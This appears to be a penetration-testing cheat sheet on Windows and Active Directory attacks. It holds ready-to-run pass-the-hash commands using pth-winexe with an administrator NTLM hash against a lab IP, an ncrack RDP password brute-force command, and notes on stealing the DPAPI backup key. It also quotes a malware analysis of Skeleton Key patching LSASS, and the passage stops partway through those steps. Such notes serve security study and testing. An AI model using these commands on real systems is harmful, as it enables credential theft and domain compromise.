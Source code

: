 Auth using username and NTLM hash (since NTLM and LM hashes are not salted)

- Replace "no password" in dump wih empty LM hash
- Copy admins dumped hash (LM:NTML)

```
export SMBHASH=LM:NTML
pth-winexe -U administrator% //ip cmd
```

#### pth-winexe
```
pth-winexe
-U jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
//10.10.10.63 cmd
```

### RDP Password Brute-forcing
```
ncrack -v -f --user administrator -P password.txt rdp://ip,CL=1
```

### LSASS

## Attack Techniques

### DPAPI Backup Key

- Access to secret keys of all users in a domain (certificate, private key, etc.)
- Obtaining the never changing DPAPI master key
- In a domain setup, all master keys are required to decrypt the keys.
  - All master keys are protected using  one never renewed  key.
  - Backup key protocol can be used (tz) to get this key from DC.

### Skeleton Key
- Actors can use a password of their choosing to authenticate as any user.

- Skeleton Key is deployed as an in-memory patch on a victim's AD domain controllers to allow the threat actor to authenticate as any user, while legitimate users can continue to authenticate as normal.



>  Ref: https://www.secureworks.com/research/skeleton-key-malware-analysis](https://www.secureworks.com/research/skeleton-key-malware-analysis)



> When run, Skeleton Key performs the following tasks:
>
> 1. Check for one of the following compatible 64-bit Windows versions. The malware is not compatible with 32-bit Windows versions or with Windows Server versions beginning with Windows Server 2012 (6.2).
>    - 6.1 (Windows 2008 R2)
>    - 6.0 (Windows Server 2008)
>    - 5.2 (Windows 2003 R2)
> 2. Use the SeDebugPrivilege function to acquire the necessary administrator privileges to write to the Local Security Authority Subsystem Service (LSASS) process. This process controls security functions for the AD domain, including user account authentication.
> 3. Enumerate available processes to acquire a handle to the LSASS process.
> 4. Obtain addresses for the authentication-related functions that will be patched:
>    - CDLocateCSystem — located in cryptdll.dll
>    - SamIRetrieveMultiplePrimaryCredentials — located in samsrv.dll
>    - SamIRetrievePrimaryCredentials — located in samsrv.dll
> 5. Perform OS-specific adjustments using the global variable set during the compatibility check in Step 1.
> 6. Use the OpenProcess function to acquire a handle to the LSASS process.
> 7. Reserve and allocate the required memory space to edit and patch the LSASS process's memory.